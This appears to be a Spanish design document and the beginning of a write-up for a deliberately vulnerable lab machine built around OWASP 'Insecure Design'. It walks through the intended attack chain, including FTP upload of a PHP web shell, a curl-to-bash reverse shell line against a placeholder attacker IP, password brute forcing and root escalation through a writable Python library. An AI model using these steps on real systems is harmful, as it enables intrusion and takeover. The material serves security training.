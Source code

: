 # **Máquina: Diseño Inseguro**

## Objetivo
Esta máquina está específicamente diseñada para explotar la vulnerabilidad ***A04:2021 - Diseño Inseguro*** y otras vulnerabilidades.

## Planteamiento
Para cumplir con este objetivo, la máquina alojará varios servicios como **FTP**, **SSH** y **Apache**.

Estos servicios se encontrarán expuestos externamente para que cuando el atacante realice un reconocimiento pueda detectarlos.

El servicio **FTP** podrá ser accesible de forma anónima. Este servicio tendrá una configuración insegura.

El servicio de **SSH** no tendrá ninguna función más que despistar al atacante. Este servicio será vulnerable a enumeración de usuarios del sistema.

El servicio de **apache** alojará nuestra pagina web la cual esta inspirada en la serie **Los Originales**. La web será vulnerable a la vulnerabilidad **Diseño Inseguro**, la cual estará enfocada a una gestión insegura de los permisos de usuarios FTP.

****

Para comenzar el atacante realizará un reconocimiento de los servicios expuestos por la maquina, y de primeras podrá ver que el servicio **FTP** es propenso a hacer un login mediante el usuario de **anonymous** y que el **SSH** es propenso a enumeración de usuarios.

Cuando el atacante se ponga a revisar la web y realizar **FUZZING** para descubrir subdirectorios ocultos, encontrará el directorio **documents**, el cual al intentar acceder no tendra permisos de lectura.

Si el atacante sigue revisando la web, encontrará que no hay ningun vector de entrada a través de la pagina web, por lo cual se pondrá a probar que puede hacer con el usuario de **anonymous** en **FTP**, pero se dará cuenta que con este usuario tampoco puede realizar acciones importantes para vulnerar la maquina.

El atacante se pondrá a revisar mejor la web y verá que se hablan de personajes de la serie, por lo cual se creará un diccionario con nombres de usuario relacionados con los personajes de la serie **Los Originales**, de esta forma el atacante utilizará una script en **Python** para enumerar los usuarios existentes del sistema mediante **SSH**, consiguiendo encontrar al usuario **elijah** existente en la maquina.

Una vez el atacante sepa que el usuario **elijah** existe en la maquina, utilizará la herramienta **Hydra** junto con el diccionario de contraseñas **rockyou.txt** y el usuario **elijah** para realizar un ataque de fuerza bruta e intentar averiguar la contraseña del usuario atacando al servicio de **FTP**, de esta forma obtendremos la contraseña del usuario **elijah** para acceder al **FTP**.

Cuando el atacante acceda al **FTP** con el usuario de **elijah** podrá ver que puede visualizar un directorio **elijah**, en el cual despues de probar a realizar que acciones puede hacer, verá que puede subir ficheros dentro de este directorio **elijah**, de esta forma el atacante subira un fichero **cmd.php** el cual tendrá codigo en PHP para realizar una **RCE**.

Sabiendo todo esto, el atacante accederá al directorio **documents** dentro de la web y verá que dentro de **documents** existe **elijah**, de esta forma llegará a la conclusión que el fichero con el **RCE** que ha subido dentro de **elijah** por **FTP** esta sincronizado con los directorios de la web, por lo que si accede a este fichero y ejecuta **cmd=whoami** y por pantalla le muestra **www-data** verá que tiene ejecución remota de comandos.

De esta forma el atacante, se creará un **index.html** con codigo para ejecutarse una **reverse shell** en **bash**, se creará un servicio **HTTP** y se pondra en escucha por el **puerto 443**, dentro de la url hará que la maquina realice un **curl** a la IP del atacante y "pipeara" el resultado con **bash** **(http://IpMaquina/cmd.php?cmd=curl IpAtacante | bash)**, realizando esto obtendremos una **reverse shell** y obtendremos acceso a la maquina como **www-data** en donde realizaremos un tratamiento de la **TTY**.

Una vez ya tenemos acceso como **www-data** dentro de la maquina, el atacante encontrará una imagen del personaje de **caroline**, esta imagen tendra el nombre de **caroline.jpg** y estara ubicado en **/var/www/**, esta imagen tendrá un fichero **zip** oculto, que se podrá extraer mediante la herramienta de **binwalk**, una vez el atacante ha extraido este fichero **zip** vera que al intentar **"unzipearlo"** este se encuentra protegido con contraseña, por lo cual se deberá extraer un **hash** de la contraseña mediante **zip2john** y despues crackear este **hash** con la herramienta de **John**.

Cuando se tenga la contraseña del fichero **zip**, lo descomprimimos y veremos un fichero con muchas contraseñas, las cuales estas contraseñas se utilizaran junto al usuario de **caroline** y la herramienta de **Hydra** para descubrir si alguna de estas contraseñas pertenece la usuaria **caroline** y es posible acceder por **SSH**.

Con **Hydra** descubrimos la contraseña de **caroline** e iniciamos sesión por **SSH** para obtener acceso a la maquina, una vez tenemos acceso a la maquina con la usuaria **caroline**, el atacante el atacante podrá visualizar la flag **user.txt** en el directorio **/home/caroline/**.
El atacante se pondrá a buscar la forma de escalar privilegios, despues de estar buscando encontrará que puede ejecutar el binario de **python3.10** sin contraseña como **root**. Además tambien encontrará en el **home** de la usuaria **caroline**, un fichero con nombre **codificadorNombres.py**, el cual tiene la función de mostrar el nombre que reciba como parametro a **base64**.

Si el atacante visualiza como funciona este script verá que se importan las librerias de **system** y **base64**, sabiendo esto, se pondra verificará y encontrará que los permisos de la libreria **base64.py** para **python3.10** tiene permisos para que **otros** puedan modificar el contenido de la libreria y guardarlo, por lo cual el atacante editará el fichero de **base64.py** y en la función de **b64enconde** que utiliza el **script** de **codificadorNombres.py** se añadira una linea para que cuando se ejecute el **script**, el usuario que ejecute el script **"spawnee"** una **bash**.

De esta forma como el atacante puede ejecutar el binario **python3.10** como **root**, ejecutará el **script codificadorNombres.py**  utilizando **python3.10** como el usuario **root**, de esta forma se **"spawneara"** una **bash** como **root**, por lo tanto el atacante habria escalado sus privilegios al usuario con más privilegios.

Una vez tenga acceso con el usuario **root**, el atacante podrá visualizar el flag de **root.txt** dentro de **/root/**, además de obtener acceso completo a toda la maquina.

## Configuración del entorno
Para configurar el entorno utilizaremos un contenedor Docker con el sistema operativo Ubuntu Server. Los servicios que utilizaremos son:

- **FTP**: *vsftpd 3.0.5* --> Para transferencia de archivos.
- **SSH**: *OpenSSH 7.2p2* --> Para acceso remoto seguro.
- **HTTP**: *Apache 2.4.52* --> Para el servidor web.
 
## Pasos a seguir

1. **Instalación de Docker**
2. **Creación del Dockerfile**
3. **Verificación de contenedor Docker**
4. **Primeras pruebas de Docker**
5. **Configuración de la máquina y paquetes**
6. **Testeo de vulnerabilidades**
7. **Aplicar mejoras y corregir errores/problemas**
8. **Volver a testear las vulnerabilidades**
9. **Redactar el reporte y documentación final**

## WriteUp (vista atacante)

Realizamos un escaneo de los puertos de la maquina.

![](../Imagenes/1_diseñoInseguro.png)

